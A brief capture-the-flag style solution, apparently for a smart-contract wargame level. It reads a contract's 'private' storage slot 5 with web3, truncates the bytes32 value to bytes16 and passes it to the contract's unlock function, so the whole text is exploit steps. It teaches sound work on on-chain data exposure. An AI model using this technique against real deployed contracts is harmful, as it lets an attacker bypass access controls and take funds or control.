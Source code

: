 1) await web3.eth.getStorageAt(instance, 5)

    '0x1ad7c145924fdbd46c5f14866ee9a913f174e7dbd3b50aaa0e6aec730c7ec2b8'


2) bytes32 casted to bytes16 --> remove 32 rightmost digits (16 bytes)

3) await contract.unlock("0x1ad7c145924fdbd46c5f14866ee9a913")
